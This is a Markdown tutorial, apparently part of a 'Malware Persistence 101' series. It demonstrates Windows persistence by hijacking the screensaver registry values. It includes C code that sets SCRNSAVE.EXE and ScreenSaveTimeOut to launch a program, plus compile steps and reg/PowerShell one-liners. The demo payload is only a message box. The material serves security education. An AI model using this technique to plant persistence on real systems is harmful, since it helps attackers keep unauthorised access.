 # 05 persistence - screensaver hijacking

Screensavers are programs that execute after a configurable time of user inactivity. This feature of Windows it is known to be abused by threat actors as a method of persistence. Screensavers are PE-files with a `.scr` extension by default and settings are stored in the following registry keys:    

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive`    
![img](./img/2024-05-05_11-09.png)    

set to `1` to enable screensaver.

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut` - sets user inactivity timeout before screensaver is executed.    
`HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE` - set the app path to run.    

Let's say we have a simple *"malware"*:    

```cpp
/*
 * Malware Persistence 101
 * hack.c
 * "Hello, Prishtina!" messagebox
 * author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Hello, Prishtina!","=^..^=", MB_OK);
  return 0;
}
```

Let's go to compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-05_11-15.png)    


And save it to folder `Z:\\`.     

Then, let's create a script `pers.c` that creates registry keys that will execute our program `hack.exe` when user inactive `10` seconds:    

```cpp
/*
 * Malware Persistence 101
 * pers.c
 * windows low level persistense via screensaver
 * author: @cocomelonc
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\hack.exe";
  // timeout
  const char* ts = "10";
  // activation
  const char* aact = "1";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, REG_SZ, (unsigned char*)aact, strlen(aact));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, REG_SZ, (unsigned char*)ts, strlen(ts));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, logic is simplest one. We just add new registry keys for timeout and app path. 

Let's compile our `pers.c` script:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-05_11-23.png)    

First of all, check registry keys in the victim's machine and delete keys if exists:    

```powershell
reg query "HKCU\Control Panel\Desktop" /s
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'SCRNSAVE.EXE'
```

![img](./img/2024-05-05_11-27.png)   

Then, run our `pers.exe` script and check again:   

```powershell
.\pers.exe
reg query "HKCU\Control Panel\Desktop" /s
```

![img](./img/2024-05-05_11-29.png)    

As you can see, new key added as expected.    
So now, check everything in action. Logout and login again and wait `10` seconds or just inactive `10` seconds:    

![img](./img/2024-05-05_11-31.png)    

Everything is worked perfectly :)    

Of course, egistry keys can be added from the `cmd` terminal:    

```cmd
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /d Z:\hack.exe
```

or `powershell` commands:

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'Z:\hack.exe'
```
